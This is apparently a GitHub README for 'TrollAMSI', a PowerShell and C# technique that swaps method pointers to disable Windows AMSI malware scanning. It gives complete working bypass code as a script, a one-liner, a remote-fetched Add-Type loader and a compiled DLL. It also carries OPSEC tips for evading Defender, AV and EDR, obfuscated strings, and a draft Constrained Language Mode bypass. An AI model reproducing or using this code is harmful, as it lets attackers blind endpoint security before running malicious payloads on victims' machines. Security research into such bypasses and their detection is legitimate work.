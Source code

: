 # TrollAMSI
Matt Graeber first introduced the technique to bypass AMSI by using reflection in 2016. The technique primarily targets field attributes. **Source:** https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Matt-Graebers-Reflection-method. Here, we bring us back to 2016 by targetting methods which I call a new technique "Reflection with method swapping" (i.e essentially monkeypatching). In our specific case, we use reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. Additionally, this opens doors for other techniques such as ETW and CLM possibly(?). AMSI bypasses are usually detected at 2 stages:
1. The attempt to bypass -> both static and dynamic
2. The bypass itself -> Post bypass, the signatures left behind

The beauty of this technique as opposed to other AMSI bypass techniques such as byte patching etc for the 2 detections mentioned above is:
1. There is a low detection surface:
    - statically: because the code profile is so short and it is hard to apply a signature on any part of the common .NET functionality used
    - dynmically: because of the lack of hooked win32 API calls 
2. Because we are modifying JIT/IL memory which is hard for AV/EDR to monitor or has not been monitored at this point by a lot of vendors

**Note: Technically speaking, PrepareMethod() in both the "raw powershell" and .cs versions should be called (especially for our method 'M') but works without it too**

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence **WAAAAAY more opsec safe**
- No amsi.dll patching or byte patching for that matter
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement
   ```
          public static void Troll()
        {
            MethodInfo o = typeof(System.Management.Automation.Alignment).Assembly.GetType("System.Management.Automation.Security.SystemPolicy").GetMethod("GetS" + "ystemLoc" + "kdow" + "nPolicy", System.Reflection.BindingFlags.Public | System.Reflection.BindingFlags.Static);
            MethodInfo t = typeof("<Insert Class here>").GetMethod("M", BindingFlags.Static | BindingFlags.NonPublic);
            RuntimeHelpers.PrepareMethod(o.MethodHandle);
            RuntimeHelpers.PrepareMethod(t.MethodHandle);
            Marshal.Copy(new IntPtr[] { Marshal.ReadIntPtr(t.MethodHandle.Value + 8) }, 0, o.MethodHandle.Value + 8, 1);
        }
        private static int M() { return 0; }
  ```
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!
